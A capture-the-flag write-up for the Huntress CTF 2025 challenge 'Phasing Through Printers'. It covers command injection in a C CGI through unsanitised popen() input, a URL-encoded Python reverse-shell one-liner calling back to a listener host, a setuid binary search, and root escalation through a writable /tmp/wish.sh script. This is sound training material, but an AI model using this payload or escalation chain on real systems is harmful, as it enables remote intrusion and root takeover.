

# Phasing Through Printers

Phasing Through Printers is a miscellaneous challenge from the Huntress CTF 2025.

<em>
Challenge Prompt

I found this printer on the network, and it seems to be running... a weird web page... to search for drivers?

Here is some of the code I could dig up.

NOTE

Escalate your privileges and uncover the flag in the root user's home directory.
</em>



We are provided with source code for a CGI written in C and an online instance that holds the flag. Looking at the source code, we can identify command injection possibilities.

The CGI builds up the command string in three parts. The first is a hardcoded ```grep -R -i```, the second is taken from URL decoded but otherwise unsanitised user input, and the third is a hardcoded path to search, ```/var/www/data```. This is then passed to ```popen()```.

```c
   strcpy(combinedString, first_part);      // grep -R -i
   strcat(combinedString, decoded);         // user input
   strcat(combinedString, last_part);       // /var/www/html/data
```


Passing unsanitised input to ```popen()``` is a classic for a CTF injection challenge. Without quoting or escaping shell control characters are interpreted can be used to get the shell to parse arbitrary new commands. My teammate solved this challenge using curl but I dislike blind injection and went straight for a reverse shell. I closed off the hardcoded first string with ```;``` and added my URL encoded python snippet.

```py
%3Bpython3%20%2Dc%20%27import%20os%2Cpty%2Csocket%3Bs%3Dsocket%2Esocket%28%29%3Bs%2Econnect%28%28%2210%2E200%2E10%2E160%22%2C9001%29%29%3B%5Bos%2Edup2%28s%2Efileno%28%29%2Cf%29for%20f%20in%280%2C1%2C2%29%5D%3Bpty%2Espawn%28%22sh%22%29%27%0A

;python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.200.10.160",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

```
```
unit0xbcd@darkstar:~ >$ nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.1.169.17 47390
$ whoami
www-data
```

The shell was running as the ```www.data``` user and did not have permissions to read ```/root/flag.txt```. The first thing I did was check for suspicious `setuid` binaries. `setuid` is a special permission bit represented by an 's' instead of an 'x' for the owner's execute permissions. It allows for the binary to be executed with the permissions of the owner, not the user.

```
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 59704 Nov 21  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 62672 Apr  7  2025 /usr/bin/chfn
-rwsr-xr-x 1 root root 68248 Apr  7  2025 /usr/bin/passwd
-rwsr-xr-x 1 root root 35128 Nov 21  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 88496 Apr  7  2025 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 72000 Nov 21  2024 /usr/bin/su
-rwsr-xr-x 1 root root 48896 Apr  7  2025 /usr/bin/newgrp
-rwsr-xr-x 1 root root 52880 Apr  7  2025 /usr/bin/chsh
-rwsr-xr-x 1 root root 16416 Sep 29 13:09 /usr/local/bin/admin_help
```

Pretty suspicious indeed. ```/usr/local/bin``` on most Linux distributions is reserved for custom scripts or binaries and is usually unpopulated. I ran it, and observed the output.

```
Error opening original file
Bad String in File.
Your wish is my command... maybe :)
```

The binary was expecting some kind of file to be present - hopefully user writable and a path to privilege escalation. I used ```strings``` to look for more information and found this line. 

```
chmod +x /tmp/wish.sh && /tmp/wish.sh
```

Since the binary is setuid root, it would make the file ```/tmp/wish.sh``` executable and then execute it with the privileges of the root user. 


```
$ echo 'cat /root/flag.txt' > /tmp/wish.sh
$ /usr/local/bin/admin_help

Your wish is my command... maybe :)
flag{93541544b91b7d2b9d61e90becbca309}
```

The challenge was solved - but another player pointed out that the source code of the ```admin_help``` binary was present on the system and that there is an interesting little bug. I pulled it out to take a look.

```c
int main() {
    setuid(geteuid());
    printf("Your wish is my command... maybe :)\n");
    const char *targetFile = "/tmp/wish.sh";
    char *removeThis[] = {"bash", "sh", "flag", "txt"};
    for(int i = 0; i<4; i++){
        if(!removeStringFromFile(removeThis[1])){
            printf("Bad String in File.\n");
            return 0;
        }
    }
    system("chmod +x /tmp/wish.sh && /tmp/wish.sh");

    return 0;
}
```

This function has a filter list of text (removeStringFromFile) to add another layer of the challenge - but it isn't working the way one would expect. Looking at where the function is defined, it doesn't actually remove anything - it looks line by line for the text to match and updates a variable if anything on the filter list is found. This then triggers the 'Bad String in File' noop return.

```c
int removeStringFromFile(char* stringa) {
    FILE *file;
    char line[MAX_LINE_LENGTH];
    char filename[] = "/tmp/wish.sh";
    int found = 0;
    // Open the original file for reading
    file = fopen(filename, "r");
    if (file == NULL) {
        perror("Error opening original file");
        return 0 ;
    }
     while (fgets(line, sizeof(line), file) != NULL) {
        if (strstr(line, stringa) != NULL) {
            found = 1;
            break; // String found, no need to read further
        }
    }

    if (found) {
       return 0;
    }
```
It looks as though the call to removeStringFromFile is intended to iterate over the removeThis array and check for each. But only index[1] is supplied which instead looks for the substring "sh" four times. For this to work as intended, the variable ```i``` would need to be used. Any strings containing 'sh' will cause the programme to stop executing - including 'bash' - but the filter for 'flag' or 'txt' is never processed.

It's hard to tell if this is a bug or an intentional change to an older challenge. If the filter had worked as expected it could have been bypassed using encoded commands or even by writing a script to be called by ```wish.sh``` as a second stage.
